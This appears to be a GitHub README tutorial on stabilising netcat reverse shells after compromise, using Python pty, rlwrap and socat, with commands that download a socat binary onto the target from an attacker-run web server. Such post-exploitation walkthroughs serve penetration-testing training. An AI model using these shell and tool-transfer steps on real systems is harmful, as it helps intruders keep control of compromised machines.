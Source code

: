 <h1>$${\color{red}Netcat} \space {\color{yellow}Shell} \space {\color{white}Stabilisation}$$</h1>

> Ok, so we've caught or connected to a netcat shell, what next?
> These shells are very unstable by default. Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running inside a terminal, rather than being bonafide terminals in their own right. Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.

*********

- ### Technique 1: Python

 The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. The first thing to do is use ``` python -c 'import pty;pty.spawn("/bin/bash")' ```, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace <kbd>python</kbd> with <kbd>python2</kbd> or <kbd>python3</kbd> as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
   
2. Step two is: ``` export TERM=xterm ``` -- this will give us access to term commands such as <kbd>clear</kbd>.
   
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use ``` stty raw -echo; fg ``` .

> This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 
<br>

The full technique can be seen here:

<br>
<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/5ca596fe-72b4-4ddc-8307-068cca1d4adb">
</p>

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type ```reset``` and press enter.
******************

- ### Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with <kbd>sudo apt install rlwrap</kbd>.

<br>

To use rlwrap, we invoke a slightly different listener:

``` rlwrap nc -lvnp <port> ```

<br>

> Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly <kbd>useful</kbd> when dealing with <kbd>Windows shells</kbd>, which are otherwise notoriously difficult to stabilise. When dealing with a <kbd>Linux target</kbd> , it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z.

then use ```stty raw -echo; fg``` to stabilise and re-enter the shell.

***************

- ###  Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary ( ```sudo python3 -m http.server 80``` ), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget ( ```wget <LOCAL-IP>/socat -O /tmp/socat``` ).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed ( ```Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe``` ).

> We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

**********

> With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and ```run stty -a``` . This will give you a large stream of output. Note down the values for "rows" and columns:

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/8b18c859-360b-40a1-8151-5ee274278e76">
</p>

Next, in your reverse/bind shell, type in:

```stty rows <number>```

and

```stty cols <number>```

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

*****************

if this content liked you, follow me [Here](https://github.com/4bo4yman) ;)

